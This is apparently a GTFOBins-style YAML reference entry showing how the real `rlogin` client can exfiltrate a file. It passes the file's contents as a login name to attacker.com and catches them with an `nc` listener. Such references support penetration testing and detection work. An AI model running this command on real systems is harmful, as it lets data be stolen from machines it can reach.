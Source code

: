 description: |
  Usually `rlogin` is a symlink to `ssh`, the following works only when the *real* `rlogin` is used (e.g., from the `rsh-client` APT package).
functions:
  file-upload:
    - description: |
        Send contents of a file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker system to capture the contents.

        `rlogin` hangs waiting for the remote peer to close the socket.

        The file is corrupted by leading and trailing spurious data.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        rlogin -l "$(cat $LFILE)" -p $RPORT $RHOST
---
